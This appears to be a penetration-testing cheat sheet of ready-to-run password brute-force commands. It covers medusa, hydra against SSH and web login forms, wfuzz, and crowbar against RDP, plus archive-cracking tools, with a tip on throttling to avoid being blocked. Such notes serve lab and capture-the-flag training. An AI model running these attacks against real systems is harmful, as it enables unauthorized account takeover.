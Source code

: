 :information_source: Password Lists: [https://github.com/danielmiessler/SecLists](https://github.com/danielmiessler/SecLists)
# medusa
```
medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin
```

# hydra
For ssh try shorter password lists like ``/usr/share/wfuzz/wordlist/others/common_pass.txt``
```
hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.1.10 http-get
# specify number of threads with -t to avoid getting blocked
hydra -l user -P wordlist ssh://10.10.10.10 -f -V -t 3
```
Get help for service module
```
hydra http-form-post -U
```
Example:
```
hydra -l admin -P <PASSLIST> <IP> http-post-form "/index.php:username=^USER^&password=^PASS^&login=login:Login failed" -V
# use -f to stop the attack once a result is found
```

Where first field (delimited by :)  is URL. Second field contains parameters and third contains a string within the response from webpage which indicates that the login failed.
# wfuzz

``` bash
wfuzz -u http://10.10.10.157/centreon/api/index.php?action=authenticate -d ’username=admin&password=FUZZ’ -w /usr/share/seclists/Passwords/darkweb2017-top1000.txt --hc 403
wfuzz --hc 404 -c -z file,big.txt http://10.10.26.165/site-log.php\?date=FUZZ
```

# RDP
* [crowbar](https://github.com/galkan/crowbar)
```
crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
```
In case of error: "File: /usr/share/wordlists/rockyou.txt doesn't exists" it is due encoding issues.
Convert list with:
```
iconv -f ISO-8859-1 -t UTF-8 /usr/share/wordlists/rockyou.txt > rockyou_utf8.txt
````

# Archives
Bruteforce password protected .zip or .rar file
* fcrackzip
* rarcrack
* john the ripper => zip2john, rar2john

